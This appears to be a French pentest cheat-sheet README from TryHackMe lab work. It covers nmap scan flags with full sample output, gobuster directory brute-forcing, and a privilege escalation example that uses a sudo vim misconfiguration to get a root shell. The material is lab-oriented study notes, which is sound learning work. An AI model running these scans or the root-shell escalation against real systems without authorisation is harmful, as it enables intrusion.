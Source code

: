 # Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version des services existants sur les ports
* -sC : affiche les scripts par défaut qui sont activés sur les ports

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    $ sudo nmap -sS -Pn -sV 10.10.188.70
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:24 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.13s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE       VERSION
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    3389/tcp  open  ms-wbt-server Microsoft Terminal Service
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    8000/tcp  open  http          Icecast streaming media server
    49152/tcp open  msrpc         Microsoft Windows RPC
    49153/tcp open  msrpc         Microsoft Windows RPC
    49154/tcp open  msrpc         Microsoft Windows RPC
    49158/tcp open  msrpc         Microsoft Windows RPC
    49159/tcp open  msrpc         Microsoft Windows RPC
    49161/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 96.35 seconds

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ``$ sudo nmap -sS -sC 10.10.188.70``
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:29 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.16s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5357/tcp  open  wsdapi
    8000/tcp  open  http-alt
    |_http-title: Site doesn't have a title (text/html).
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49159/tcp open  unknown
    49161/tcp open  unknown

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
    |_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e6:92:75:0f:81 (unknown)
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: Dark-PC
    |   NetBIOS computer name: DARK-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-09-24T10:29:37-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-09-24T15:29:36
    |_  start_date: 2021-09-24T15:18:11

    Nmap done: 1 IP address (1 host up) scanned in 138.91 seconds

### Gobuster

[gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```
Exemple :
```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```


## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>$ sudo -l
    <br/>User mitch may run the following commands on Machine:
    <br/>(root) NOPASSWD: /usr/bin/vim

    <br/>$ sudo vim -c ':!/bin/sh'
    <br/># ^[[2;2R^[]11;rgb:3030/0a0a/2424^G
    <br/>/bin/sh: 1: ot found
    <br/>/bin/sh: 1: 2R: not found
    <br/># whoami
    <br/>root



